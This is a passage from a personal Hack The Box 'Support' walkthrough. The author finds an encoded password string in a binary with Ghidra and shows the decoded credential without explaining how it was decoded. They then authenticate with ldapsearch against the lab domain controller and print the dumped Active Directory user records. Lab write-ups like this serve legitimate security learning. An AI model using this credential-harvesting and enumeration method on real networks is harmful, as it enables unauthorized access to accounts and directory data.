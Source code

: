 in using Ghidra for the first time, I was able to locate the strings containing usernames and keys using the Search > Find Strings options in Ghidra for the selected file.

![[./_resources/HTB_-_Support_Machine.resources/image.9.png]]![[./_resources/HTB_-_Support_Machine.resources/image.10.png]]

```
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
```

Next, I need to decode the above string in order to be able to use it for an authentication attempt through ldapsearch.

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Unfortunately, I still don't know how I could have decoded the first string above to obtain the second one. There is still almost no information regarding how this was done except for a script I found online when google dorking around a bit.

Step #9: Ldapsearch Command:

After finally successfully conducting an ldapsearch command using the above key, I obtained the following information.:

```
ldapsearch -x -H ldap://10.10.11.174 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb"
```

```
givenName: leopoldo
distinguishedName: CN=levine.leopoldo,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111337.0Z
whenChanged: 20220528111338.0Z
uSNCreated: 12891
uSNChanged: 12906
company: support
streetAddress: Skipper Bowles Dr
name: levine.leopoldo
objectGUID:: zaT1TYtnNUKvrkK/fHjf0Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982100175089241
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILVwQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: levine.leopoldo
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111337.0Z
dSCorePropagationData: 16010101000000.0Z
mail: levine.leopoldo@support.htb
# raven.clifton, Users, support.htb
dn: CN=raven.clifton,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: raven.clifton
sn: raven
```